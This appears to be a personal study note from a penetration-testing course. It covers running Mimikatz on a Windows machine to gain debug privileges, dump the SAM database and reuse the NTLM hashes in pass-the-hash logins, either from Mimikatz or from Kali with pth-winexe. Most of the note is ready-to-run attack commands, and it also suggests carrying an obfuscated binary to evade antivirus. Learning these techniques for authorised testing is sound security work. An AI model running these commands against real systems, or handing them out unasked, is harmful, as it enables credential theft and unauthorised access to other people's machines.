 Mimikatz PWK

LSASS is a privileged process running under the SYSTEM user.

- Mimikatz must be launched in \*\*administrator \*\*command prompt
- Copy mimikatz into the victim system - likely will be blocked by AV so recommend to have a obfuscated binary available
    - mimikatz.exe available in **/usr/share/windows-resources/mimikatz**

<ins>**Step 1: First get SeDebugPrivilege**</ins>

> ./mimikatz.exe
> 
> privilege::debug
> 
> token::elevate

![4966301c6746503dccea81898dadde74.png](:/334623ca52664eccae7ac0a21d291aa2)

<ins>**Step 2: Dump contents of the SAM database**</ins>

> lsadump::sam

![7b4cbcc81201ed7dc72f474a61c53bbe.png](:/4da9057b1a5c42f0986f67edafcc1941)

<ins>**Step 3:**</ins> <ins>Use the hash and the pass the hash as a login credential (or Crack the hash)</ins>

PtH is an attack technique to auth to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear text password.

On Mimikatz

> sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

In Kali

> pth-winexe -U username%aad3b435b51404eeaad3b435b51404ee:NTLM_Hash [//10.11.0.22](//10.11.0.22) cmd
> 
> \# The hash is a NetNTLM v1/2 https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html , 
> 
> https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

Usually funny_hash is aad3b435b51404eeaad3b435b51404ee

- Means 'no password' in LM Hash
    
- In NTLM, the equivalent is 31d6cfe0d16ae931b73c59d7e0c089c0

id: ca065c5dd0874a67afa30248bca1177d
parent_id: 0dad434f58c94c608e219795d44a723c
created_time: 2022-01-30T10:19:57.109Z
updated_time: 2022-05-18T15:12:04.896Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T10:19:57.109Z
user_updated_time: 2022-05-18T15:12:04.896Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1